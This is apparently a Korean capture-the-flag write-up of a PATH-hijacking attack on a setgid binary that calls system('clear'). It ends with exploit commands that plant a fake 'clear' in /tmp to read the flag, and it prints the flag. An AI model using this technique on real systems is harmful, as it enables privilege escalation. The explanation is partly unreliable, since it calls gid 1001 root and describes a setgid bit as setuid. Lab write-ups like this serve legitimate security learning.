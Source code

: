 
# 문제 메인 코드
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setresgid(0x3E9u, 0x3E9u, 0x3E9u);
  system("clear");
  puts("Tada~!");
  return 0;
}
```


# 분석
화면을 초기화 해주는 clear명령어를 실행시키고 종료함
한편 해당 바이너리는 root의 권한(0x3E9u=1001)으로 실행되고 있고,
바이너리를 실행하는 환경을 보면 `chal` 바이너리에 `setuid`가 걸려있음을 알 수 있음
```sh
pwn@localhost:~$ ls -l
total 20
-rwxr-sr-x 1 root pwned 16048 Dec 12  2022 chal
-rw-r-S--- 1 root pwned    69 Dec 12  2022 flag
```
*s는 실행 권한이 있고 S는 없음*

일반적으로 사용자는 자신의 쉘 환경에 대해 환경변수를 설정할 수 있는데, 권한이 비교적 자유로운 /tmp를 이용하여, 기존의 clear 명령어 바이너리보다 먼저 우선순위를 가진 바이너리를 만들 수 있음
```sh
export PATH=/my/custom/path:$PATH
export PATH=/tmp:$PATH
```

# exploit
```sh
echo '/bin/cat ./flag' > /tmp/clear
chmod +x /tmp/clear
export PATH=/tmp:$PATH
./chal 
DH{e47d874ddc629f916d3d5ef6f0d0de90c7b151f9d7010325d051c811382b489f}
Tada~!
```
